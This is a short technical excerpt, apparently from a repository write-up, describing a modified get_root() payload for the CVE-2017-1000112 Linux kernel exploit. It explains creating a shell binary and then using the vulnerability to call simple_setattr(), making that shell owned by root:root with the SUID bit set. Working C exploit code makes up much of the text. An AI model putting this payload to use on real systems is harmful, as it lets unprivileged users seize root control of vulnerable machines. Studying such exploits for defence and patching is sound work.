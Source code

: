 simple_setattr
==============

The idea of using `simple_setattr()` function is the following:
1) Create a shell binary
2) Exploit the vulnerability and change shell's file properties so it will be owned by root:root with SUID bit set

Here is the modified `get_root()` function of the original CVE-2017-1000112 exploit:

~~~
void get_root(void) {
        struct path path = { 0 };
        struct iattr attr = { .ia_uid = 0, .ia_gid = 0, .ia_mode = 0104755, .ia_valid = ATTR_FORCE | ATTR_UID | ATTR_GID | ATTR_MODE };
        if (!user_path_at_empty(AT_FDCWD, SHELL, 0, &path, NULL)) {
                simple_setattr(path.dentry, &attr);
                path_put(&path);
        }
}
~~~
